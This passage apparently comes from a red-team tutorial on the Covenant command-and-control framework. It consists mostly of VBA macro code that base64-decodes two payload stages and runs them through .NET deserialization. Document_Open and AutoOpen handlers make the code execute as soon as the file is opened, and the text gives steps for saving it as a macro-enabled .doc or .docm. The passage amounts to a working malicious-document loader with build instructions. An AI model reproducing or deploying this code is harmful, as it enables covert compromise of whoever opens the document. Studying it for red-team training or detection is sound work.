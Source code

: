 ```vba
    Decstage_1 = b64Decode(stage_1)

    For Each i In Decstage_1
        stm_1.WriteByte i
    Next i

    On Error Resume Next

    stm_1.Position = 0
    Dim o1 As Object
    Set o1 = fmt_1.Deserialize_2(stm_1)

    If Err.Number <> 0 Then
       Dim stm_2 As Object
       
       Set stm_2 = actCtx.CreateObject("System.IO.MemoryStream")

       Dim Decstage_2
       Decstage_2 = b64Decode(stage_2)

       For Each j In Decstage_2
        stm_2.WriteByte j
       Next j

       stm_2.Position = 0
       Dim o2 As Object
       Set o2 = fmt_1.Deserialize_2(stm_2)
    End If

End Function

Sub Document_Open()
 Exec
End Sub

Sub AutoOpen()
 Exec
End Sub
```

Save the VBA code and now, in order for this to work, we must save our document in a Macro-Enabled format such as .doc or  .docm; Unfortunately, the newer .docx will not store macros.

Now that the document is saved, we can try opening it again. However, we are presented with a security warning banner.

<p align="center">
  <img src="/assets/posts/2021-07-01-Entering-the-Covenant-C2C/cov12.JPG">
</p>
